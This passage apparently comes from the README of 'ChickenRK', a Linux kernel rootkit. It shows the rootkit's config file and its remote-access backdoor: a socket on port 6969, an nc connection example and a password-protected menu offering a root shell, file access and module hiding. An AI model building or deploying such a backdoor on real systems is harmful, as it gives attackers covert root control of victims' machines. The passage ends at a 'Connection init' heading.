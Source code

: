 Then when the rootkit is installed it will create a config file with some information that can be send using the command `getconfig`

*config.txt exemple*
```
start_time = 1684005525
version = 5.19.0-41-generic
hostname = kernel-dev
fake_random = h(;v@bT^>48auDf*"$KVQ}8_XhBD|1>
```


### Remote access 

When ChickenRK will be loaded it will open a socket on the port 6969 that will allow a remote attacker to connect.

Once connected you will be requested to input a password in order to get access to the rootkit:

In case of a wrong password:
```
nc <IP_Infected> 6969

Enter password to continue: test

Wrong password, byebye
```

But when you input the correct password:
```
Welcome to chicken rootkit, best rootkit on the market because of chicken

   MENU  

| menu          | Display menu

| create <file> | Create a file 

| read <file>   | Read a file 

| chicken <X>   | Spawn X chicken on the pc

| cmd <cmd>     | Run a command in a root shell

| unhide        | Unhide the kernel module

| hide          | Hide the kernel module

| exit          | Exit rk console 

(chikenRK) 
```

#### Connection init
